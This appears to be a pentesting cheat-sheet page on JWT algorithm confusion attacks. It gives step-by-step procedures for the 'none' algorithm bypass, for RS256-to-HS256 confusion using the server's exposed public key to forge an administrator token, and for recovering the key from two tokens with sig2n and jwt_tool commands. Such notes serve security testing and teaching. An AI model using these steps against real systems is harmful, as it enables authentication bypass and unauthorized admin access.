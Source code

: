 #### Algorithm confusion attacks

**Symmetric vs asymmetric algorithms**

| Algorithm        | Key used to sign | Key used to verify |
| ---------------- | ---------------- | ------------------ |
| Asymmetric (RSA) | Private key      | Public key         |
| Symmetric (HMAC) | Shared secret    | Shared secret      |

*   **'none' Algorithm (CVE-2015-9235):**

    ```python
    1. Turn Intercept on in burp and Login to Web App
    2. Forward the request until you get JWT token
    3. Switch to JSON Web Token Tab or JOSEPH which also contains bypass
    4. Change "alg:" to None, none, NONE, nOnE "alg:none"
    		{
    		  "alg": "none",
    		  "typ": "JWT"
    		}
    5. Change the Payload and edit the signature to empty
    		Signature = ""
    6. Forward the Request. Done!

    OR 
    python3 jwt_tool.py JWT_HERE -X a
    If the page returns valid then you have a bypass - go tampering.
    ```
* **JWT authentication bypass via algorithm confusion**
  1.  go to the standard endpoint `/jwks.json` OR `/.well-known/jwks.json` and observe that the server exposes a JWK Set containing a single public key.

      ```python
      {"keys":[{"kty":"RSA","e":"AQAB","use":"sig","kid":"73074f03-e068-4cee-b65d-c20462bb63fe","alg":"RS256","n":"z93g-LLs1HOfCA7pBj5eu43Kt-R4gVfJ2Wa8oCr8H31j7YUajf0Ypum6dSLER9Lw3YBzY6XjRKhGh_2T0bZjhqumi4gvwJmVMUWlbhcnH6Qvei9sqlC6isreOyewjwNvAal-taaq6eL7_jono4amdXQJ1LjYVnrhqRjkGtIF6Rg1wy361DjQact9dqal-dHzuImO0HcvWJK9-RsuYv5hrkKglysk948df-ylDqC4LSDVGut0DUPUJxXwWGFBhHlqJFEVPsC3yMUQ1shQQN9fzQ-8jFgFAzidthi53xykJS7J73y34iJ-ryYzce1uzl_SUnEl_b9f9GrTl4bF6g8hJw"}]}

      ```
  2. Copy the JWK object from inside the `keys` array. Make sure that you don't accidentally copy any characters from the surrounding array
  3. go to the **JWT Editor Keys** tab in Burp's main tab bar, Click **New RSA Key**.
  4. Right-click on the entry for the key that you just created, then select **Copy Public Key as PEM**.
  5. Use the **Decoder** tab to Base64 encode this PEM key, then copy the resulting string.
  6. Click **New Symmetric Key**. In the dialog, click **Generate** to generate a new key in JWK format
  7. Replace the generated value for the k property with a Base64-encoded PEM that you just created
  8. In the header of the JWT, change the value of the `alg` parameter to `HS256` .
  9. In the payload, change the value of the `sub` claim to `administrator`.
  10. At the bottom of the tab, click **Sign**, then select the symmetric key that you generated in the previous section.
* **JWT authentication bypass via algorithm confusion with no exposed key**
  1. **Obtain two JWTs generated by the server \[ login → copy jwt → logout → login again → copy another jwt ]**
  2.  **Brute-force the server's public key \[** `docker run --rm -it portswigger/sig2n <token1> <token2>` ] [https://github.com/silentsignal/rsa\_sign2n/blob/release/standalone/jwt\_forgery.py](https://github.com/silentsignal/rsa\_sign2n/blob/release/standalone/jwt\_forgery.py)
